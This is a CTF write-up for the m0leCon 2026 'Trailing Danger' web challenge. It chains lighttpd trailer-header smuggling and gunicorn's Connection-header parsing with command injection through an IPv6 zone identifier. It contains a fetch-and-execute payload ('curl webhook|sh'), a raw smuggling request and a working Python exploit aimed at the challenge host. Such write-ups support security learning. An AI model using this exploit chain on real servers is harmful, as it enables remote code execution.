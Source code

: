 # m0leCon CTF 2026 Teaser

# [web] Trailing Danger (16 solves)

The proxy I use is the best, I completely trust it. I doubt you will be able to bypass its protections.

Author: Sebastiano Sartor <@sebsrt>

## Overview

The goal of the challenge is to bypass the proxy rule `url.access-deny = ( "debug" )`
and achieve RCE on the `/debug` endpoint.
```python
@app.post("/debug")
@validate_ip
def ping(ip_address: str):
    try:
        os.popen(f'ping -c 1 {ip_address}')
        return jsonify({"status": "success"})    
    except subprocess.TimeoutExpired:
        return jsonify({"error": "Ping request timed out"}), 408
    except Exception as e:
        return jsonify({"error": str(e)}), 500
```

## Solution

### 1. Header smuggling due to trailers merge into headers

Lighttpd 1.4.80 is used as proxy. This version is vulnerable to **HTTP Header Smuggling due to trailer fields merge into headers**. This vulnerability allows to overwrite the request headers values after the parsing of the request headers and body. The fix for for it can be found here: [[core] security: fix to reject disallowed trailers](https://github.com/lighttpd/lighttpd1.4/commit/35cb89c103877de62d6b63d0804255475d77e5e1).

the fix commit states that:
> lighttpd mod_proxy sends Connection: close to backends, so this bug isnot exploitable to send additional requests to backends

To make the bug exploitable and turn it into a Request Smuggling, another parsing bug has to be exploited:

### 2. Connection header parsing bug

Many web servers only close a connection when they see the literal header `Connection: close`. 

However, [RFC 9110](https://www.rfc-editor.org/rfc/rfc9110#name-connection) allows the `Connection` header to carry multiple, comma-separated options, which must be parsed as independent tokens.
If the token `close` appears anywhere in that list, the connection **must not persist** (see [RFC 9112](https://www.rfc-editor.org/rfc/rfc9112.html#name-persistence)).

---

When lighttpd encounters these headers:
```
TE: trailers
Upgrade: any
Connection: any
```
it returns an 'ambiguous' connection header: `Connection: close, upgrade, te`.

*This also bypasses the configuration restrictions as it should be configured with `proxy.header += ( "upgrade" => "enable" )` to support upgrade*

The **ambiguous connection header sent by the proxy [won't be interpreted as `close` by gunicorn](https://github.com/benoitc/gunicorn/blob/23.0.0/gunicorn/http/message.py#L229-L240), leaving the connection open and enabling request smuggling**.

### 3. Command injection via IPv6 zone identifiers

IPv6 **link-local** addresses (`fe80::/10`) can exist on multiple interfaces of the same host. To disambiguate which link you mean, IPv6 text form allows a **zone identifier** (aka *zone index* / *scope ID*) appended as `%<zone>`:

```
fe80::1%eth0
```

[RFC 6874](https://datatracker.ietf.org/doc/html/rfc6874) defines how zones appear in URIs and constrains the characters allowed in the zone text:

> A `<zone_id>` SHOULD contain only ASCII characters classified as “unreserved” for use in URIs [RFC3986]. This excludes characters such as “]” or even “%” that would complicate parsing.

this gives us enough characters to build a valid IPv6 address that can contain shell commands, for example:

 `::1%$(curl webhook|sh)`


### Connecting the dots - TR.MRG HTTP Request Smuggling

Send the following request to lighttpd:
```http
POST / HTTP/1.1
Host: localhost:3002
Transfer-Encoding: chunked

7c
POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
0
Content-Length: 0
TE: trailers
Connection: x
```

It will:
- dechunk the request
- merge the trailer fields into headers overriding the content-length with `0`
- add the `te` token to the connection options.

This is the request that  will be forwarded to the backend:
```http
POST / HTTP/1.1
Host: localhost:3002
Content-Length: 0
Connection: close, te

POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
```

## Exploit
```python
import socket

webhook = "url"

cmd = f'{{"ip":"::1%$(curl {webhook}|sh)"}}'

smug = f'POST /debug HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/json\r\nContent-Length: {len(cmd)}\r\n\r\n{cmd}'
req = f'POST / HTTP/1.1\r\nHost: localhost:3002\r\nTransfer-Encoding: chunked\r\n\r\n{len(smug):x}\r\n{smug}\r\n0\r\nContent-Length: 0\r\nTE: trailers\r\nConnection: x\r\n\r\n'

print(req)

try:
    sock = socket.create_connection(("trailing-danger.challs.m0lecon.it", 32769), timeout=20)
    sock.sendall(req.encode())
except Exception as e:
    print('error', e)
finally:
    sock.close()
```
